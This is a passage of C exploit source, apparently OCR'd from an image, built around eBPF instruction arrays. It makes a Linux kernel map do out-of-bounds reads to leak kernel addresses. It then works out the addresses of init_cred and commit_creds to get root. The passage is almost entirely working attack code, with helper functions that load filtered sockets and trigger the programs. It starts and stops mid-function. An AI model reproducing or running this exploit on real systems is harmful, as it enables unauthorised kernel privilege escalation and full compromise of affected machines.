 ```exploit.c
    // load it malciously
    BPF_ALU64_REG(BPF_ADD, BPF_REG_9, BPF_REG_6),       // r9 += r6 (r9 = &cmap[0] + N)
    BPF_LDX_MEM(BPF_DW, BPF_REG_3, BPF_REG_9, 0),       // r3 = qword [r9] (r3 = [&cmap[0] + N])
    BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_3, 0),       // [r8] = r3 (cmap[0] = r9)
    // Go Home
    BPF_MOV64_IMM(BPF_REG_0, 0),                        // r0 = 0
    BPF_EXIT_INSN()
  };

  reader = create_filtered_socket_fd(reader_insns, ARRSIZE(reader_insns));
  if(reader < 0){
    errExit("reader not initialized");
  }
  array_update(control_map, 0, 1);
  array_update(control_map, 1, 0);
  trigger_proc(reader);
  const ulong tmp = get_ulong(control_map, 0);
  return tmp;
}

ulong leak_controlmap(void)
{
  struct bpf_insn reader_insns[] = {
    /* get cmap[0] */
    BPF_LD_MAP_FD(BPF_REG_1, control_map),              // r1 = cmap
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_FP),               // r2 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x8),            // r2 -= 8
    BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 0),                // qword[r2] = 0
    BPF_ST_MEM(BPF_DW, BPF_REG_2, -8, 0),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem),            // r0 = map_lookup_elem(cmap, 0)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),              // jmp if r0!=0
    BPF_EXIT_INSN(),
    BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_0, 0),       // r6 = cmap[0] (==0)
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_0),                // r9 = &cmap[0]
    BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),                // r8 = &cmap[0]

    BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_8, 0),       // [r8] = r3 (cmap[0] = r9)
    // Go Home
    BPF_MOV64_IMM(BPF_REG_0, 0),                        // r0 = 0
    BPF_EXIT_INSN()
  };

  int tmp_reader = create_filtered_socket_fd(reader_insns, ARRSIZE(reader_insns));
  if(tmp_reader < 0){
    errExit("tmp_reader not initialized");
  }
  trigger_proc(tmp_reader);
  const ulong tmp = get_ulong(control_map, 0);
  return tmp;
}

void ops_NIRUGIRI(ulong controlmap_addr, ulong kernbase)
{
  const ulong fakeops_addr = controlmap_addr + 0x10;
  const ulong init_cred = kernbase + 0xE43E60;
  const ulong commit_creds = kernbase + 0x081E70;
  const uint N = 0x90;
  const uint zero = 0;
  printf("[.] init_cred: 0x%lx\n", (((init_cred>>32) & 0xFFFFFFFFUL)<<32) + (init_cred & 0xFFFFFFFFUL));

  struct bpf_insn writer_insns[] = {
    /* get cmap[0] */
```
